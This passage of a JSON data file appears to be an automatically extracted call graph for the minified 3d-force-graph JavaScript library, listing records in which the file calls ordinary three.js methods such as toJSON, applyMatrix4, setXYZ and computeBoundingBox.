"getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "needsUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBuild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUploadCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "needsUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addUpdateRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setUsage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addUpdateRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearUpdateRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUpload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addGroup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearGroups"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setDrawRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeTranslation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "center"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeTangents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "attributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZW"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeVertexNormals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": 